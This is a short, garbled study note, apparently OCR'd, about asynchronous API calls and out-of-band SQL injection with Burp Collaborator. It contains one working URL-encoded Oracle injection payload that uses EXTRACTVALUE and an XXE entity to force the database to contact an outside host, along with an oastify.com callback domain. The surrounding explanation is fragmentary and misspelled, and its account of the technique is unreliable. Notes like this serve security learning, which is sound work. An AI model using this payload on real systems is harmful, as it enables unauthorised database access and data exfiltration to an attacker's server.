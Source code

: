 Synchronous API calls are blocking calls that do not return until either the change has been completed or there has been an error.
**asynchronous calls, the response to the API call is returned immediately with a polling URL while the request continues to be processed**.

out of baasnd network 
 when the attacker send the request to the server  with burp collabrator  it send the request to the server and redirect to another server 

most of the asychronous is used in the oob


`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"https://subdomain"/>+%25remote%3b]>'),'/l')+FROM+dual--`




fraz2otyrkgdbh5unj9t7n2970dq1f.oastify.com burp collabrator


 